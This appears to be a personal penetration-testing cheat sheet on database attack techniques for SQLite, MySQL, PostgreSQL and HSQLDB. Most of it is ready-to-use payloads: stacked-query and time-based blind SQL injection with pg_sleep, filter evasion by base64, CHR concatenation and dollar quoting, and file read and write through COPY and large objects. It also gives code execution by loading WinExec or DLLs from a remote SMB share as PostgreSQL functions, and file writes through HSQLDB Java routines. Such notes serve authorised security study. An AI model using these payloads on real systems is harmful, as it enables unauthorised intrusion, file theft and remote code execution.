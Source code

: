 # SQL Databases
## Sqlite
### Open DB
```sql
# Open DB
sqlite3 cereal.db

# Dump DB
.dump
```


## MySQL
### Enumerate DB
```sql
# Describe table
DESCRIBE accounts
```

## PostgreSQL
> Note Stacked Queries may break application logic during SQLi;
> In PostgreSQL a semicolon can delimeter command and thus can execute totally new commands in SQLi

 ### Executing Queries against PostgreSQL DB
 #### Using pgAdmin GUI tool
To directly execute SQL Queries directly against the database, Use the `pgAdmin` tool. This is a front end for PostgreSQL
#### From Cmd
```batch
psql.exe -U postgres -p 15432
```


### Examine Table
```sql
\d pg_largeobject
```

### Confirm SQLi Injection
```sql
;select pg_sleep(10);
```

### Filter Evasion
#### base64
```sql
# From base64
select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');
```

#### Charchter Code point
```sql
# Charchter Code point
# Character concatenation only works for basic queries such as SELECT,  INSERT, DELETE, etc. It does not work for all SQL statements.
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);

CREATE TABLE EXAMPLETABLE (sometext text); INSERT INTO EXAMPLETABLE(sometext) VALUES (CHR(87)||CHR(66)||CHR(97)||CHR(86));
SELECT * from EXAMPLETABLE;
```

#### Avoiding Quotes
Essentially, two dollar characters (`$$`) can be used as a quote (`'`) substitute by themselves, or a single one (`$`) can indicate the beginning of a “tag.” The tag is optional, can contain zero or more characters, and is terminated with a matching dollar (`$`). If used, this tag is then required at the end of the string as well.

```sql
SELECT 'SomeText';
SELECT $$SomeText$$;
SELECT $TAG$SomeText$TAG$;
```

### Write & Read file to/from Disk
```sql
CREATE TEMP TABLE PayloadTable(payload text);INSERT INTO PayloadTable(payload) VALUES ($$WowThisWorks$$);

COPY PayloadTable(payload) TO $$C:\Users\Public\Desktop\thisworks.txt$$

# Writing to file using tables
COPY <table_name> from <file_name>

# Writing to file using nested select query
COPY (select $$payloaddata$$) to <file_name>

# Reading from file 
COPY <table_name> to <file_name>

# Read from file, Full example
CREATE temp table readdatatable (content text);COPY readdatatable from $$C:\Users\Public\Desktop\thisworks.txt$$;SELECT content from readdatatable;DROP table readdatatable;

# Blind Injection, Read from file
CREATE temp table readdatatable (content text);COPY readdatatable from $$C:\Users\Public\Desktop\thisworks.txt$$;select case when(ascii(substr((select content from readdatatable),1,1))=87) then pg_sleep(10) end;--;DROP table readdatatable;
```

### Check If running as DBA
```sql
SELECT current_setting('is_superuser');
```
![[Pasted image 20210908125508.png]]

### Extensions
#### Load PostgreSQL Extension
```sql
create or replace function system(cstring) returns int as 'c:\windows\system32\kernel32.dll','WinExec' language c strict;
 
create or replace function test(text, integer) returns void as $$c:\\test.dll$$,$$test$$ LANGUAGE C STRICT; 

# supports the use of remote smb shares
create or replace function test(text, integer) returns void as $$\\192.168.1.1\smb\test.dll$$,$$test$$ LANGUAGE C STRICT; 
```

Need to make sure the appropriate Postgres structure is defined. Otherwise, this error will show up
![[Pasted image 20210908171828.png]]

#### Check if function exists
```sql
\df test
```

#### Run function from Extension
```sql
create or replace function test(text, integer) returns void as $$c:\\test.dll$$,$$myfunctioninDLL$$ LANGUAGE C STRICT;
```

> Note that any newly launched calc.exe instance will be running as a service in the background and won't show it's gui if the postgresql is running as `System`

#### Unload extension
```batch
# 1. Stop the Service
net stop "Applications Manager"

# 2. Delete the DLL
del c:\test.dll

# 3. Start the service
net start "Applications Manager"
```

```sql
# 4. Drop the function
DROP FUNCTION test(text, integer);
```

### Postgresql Large Object
Large objects can be exported back to the file system as an identical copy of the original imported file. 

#### Create Large Object
```sql
select lo_import('c:\\windows\win.ini')

# Set loid field when importing
select lo_import('C:\\Windows\\win.ini', 1337);
```

#### List Large Objects
```sql
\lo_list

select loid, pageno from pg_largeobject;
```

#### View Data in Large Object
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```

#### Update Large Object - Write to large object directly
```sql
update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and pageno=0; 
```

#### Export large object to disk
```sql
select lo_export(1337, 'C:\\new_win.ini');
```

#### Delete large object
```sql
\lo_unlink 1337
```


## HSQLDB
### Connect to HSQLDB
```java
java -cp hsqldb.jar org.hsqldb.util.DatabaseManagerSwing --url jdbc:hsqldb:hsql://opencrx:9001/CRX --user sa --password manager99

// Or
java -jar hsqldb-2.6.0-jdk11.jar
```
### Java Language Routines
 Use a function if the java method returns a variable. Otherwise, if the java method returns void use procedures.
 #### Create Function
```sql
CREATE FUNCTION systemprop(IN key VARCHAR) RETURNS VARCHAR 
LANGUAGE JAVA 
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```
#### Use Function
```sql
VALUES(systemprob('java.class.path'))
```

#### Create WriteBytesToFile Function
```sql
CREATE PROCEDURE writeBytesToFilename(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024)) 
LANGUAGE JAVA 
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```

#### Call WriteBytesToFile Function
```sql
call writeBytesToFilename('test.txt', cast('497420776f726b656421' AS VARBINARY(1024))
```